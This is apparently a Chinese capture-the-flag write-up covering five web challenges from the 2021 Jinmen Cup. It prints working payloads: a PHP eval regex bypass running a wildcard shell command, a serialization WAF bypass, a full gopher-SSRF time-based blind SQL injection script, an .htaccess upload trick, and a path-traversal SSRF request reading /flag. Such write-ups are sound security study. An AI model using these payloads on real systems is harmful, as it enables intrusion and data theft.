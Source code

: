 # Nepnep学习报告 web第六周

- 津门杯复现

## [津门杯2021]hate_php 

源码

```php
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if(preg_match("/[A-Za-z0-9_$@]+/",$code)){
        die('fighting!'); 
    }
    eval($code);
}
```

本地测的和实际环境相差真的很大, 还有的是比赛的时候没想到通配符,看到这个正则自然而然认为异或绕过

```
("%10%08%10%09%0e%06%0f"^"%60%60%60%60%60%60%60")("%00%10"^"%2d%21");
```

本地测的这个没问题但是比赛环境最后只支持这个payload

```
?><?=`/???/???%20/*`;?>
```

需要闭合前面的然后单独执行后面的语句, 根目录里找到flag

![20210512105511541](img/20210512105511541.png)

## [津门杯2021]power_cut 

停电了 > /.index.php.swp

然后发现waf是替换为空,双写绕过

```php
class weblog {
    public $weblogfile = "/flag";
}
$a = new weblog();
echo str_replace('flag','flflagag',serialize($a));
```

log GET传参得到flag

![20210512113606810](img/20210512113606810.png)

## [津门杯2021]easysql

源码

```php
<?php
highlight_file(__FILE__);
    session_start();
    $url = $_GET['url'] ?? false;
    if($url)
    {
    $a = preg_match("/file|dict/i", $url);
        if ($a==1)
        {
            exit();
        }

            $ch = curl_init();
            curl_setopt($ch, CURLOPT_URL, $_GET["url"]);
            curl_setopt($ch, CURLOPT_HEADER, 0);
            curl_exec($ch);
            curl_close($ch);
     }

?> 
```

通过SSRF访问内网的 admin.php 进行 sql注入, 打内网用 **time.time()** 比 **timeout** 好, 脚本如下

```python
# -*-coding:utf-8-*-
from urllib.parse import quote
from requests import *
import time

url = 'http://121.36.147.29:20001/?url='

test =\
"""POST /admin.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: */*
Host: 127.0.0.1
Content-Length: {}
Connection: close

{}
"""
sess = session()

def gopher(payload):
    global test
    exp = test.format(len(payload), payload)
    tmp = quote(exp)
    new = tmp.replace('%0A','%0D%0A')
    result = '_'+new
    res = 'gopher://127.0.0.1:80/'+quote(result)
    # print(res+'\n')
    return res

flag = ''
for i in range(1, 1000):
    low = 32
    high = 127
    while low < high:
        mid = (low + high) >> 1
        # payload = f"poc=if((select ascii(substr(database(),{i},1)))>{mid},sleep(0.2),1)"
        payload = f'poc=if((select ascii(substr((select flag from flag),{i},1)))>{mid},sleep(0.2),1)'
        before_time = time.time()
        print(payload)
        tmp_r = gopher(payload)
        tmp_url = url+tmp_r
        # print(tmp_url)
        r = sess.get(url=tmp_url)
        after_time = time.time()
        offset = after_time - before_time
        if (offset > 2):
            low = mid + 1
        else:
            high = mid

    if low != 32:
        flag += chr(low)
        print(flag)
    else:
        break
# flag{VqvjbS1O8A1gVWa2aPF44ruiELruVDP1}
```

结果

![20210516194109357](img/20210516194109357.png)

## [津门杯2021]Uploadhub

给了源码, 发现 if 判断这一块写错了...没用上 `$allow_type` 导致可以任意文件上传

```php
if ($_FILES["file"]["error"] > 0 && !in_array($fileext,$type) && $_FILES["file"]["size"] > 204800){
            die('upload error');
```

看到 apache.conf 里面注释了 upload 下的文件不支持php解析

```
<Directory ~ "/var/www/html/upload/[a-f0-9]{32}/">
        php_flag engine off
</Directory>
```

一开始打算是目录穿梭绕过但是本地测试发现 `$filename` 验证那里会直接把 `../` 过滤掉, 考了一个配置的知识点

> 配置文件的`<directory>` 晚于`.htaccess`执行 

然后上传 `.htaccess` 解析 php 文件

```
<Files "*.php">
php_flag engine on
</Files>
```

然后找到 flag 的位置用 file_get_contents 读取

```
var_dump(file_get_contents('/flag'));
```

结果

![20210516204019501](img/20210516204019501.png)

## [津门杯2021]GoOSS

本地80端口可以任意文件读取

```php
<?php
// php in localhost port 80
readfile($_GET['file']);
?>
```

审计 main.go 发现有个 302 跳转

```go
if fi.IsDir() {
	if !strings.HasSuffix(c.Request.URL.String(), "/") {
		c.Redirect(302,c.Request.URL.String()+"/")
```

需要满足 IsDIr(), 本地调试发现末尾多加了 `/..` 的时候会被判定为目录触发302

> `gin-gonic/gin`特性: 双`//`即可触发SSRF 

payload

```
{"url": "http://127.0.0.1:1234//localhost?file=../../../../../flag&dir=../.."}
```

结果

![20210516210159772](img/20210516210159772.png)

## 总结

- 备份文件泄露
- gopher协议ssrf攻击内网
- apache文件与.htaccess解析优先级区分
- go语言的目录判断和gin特性

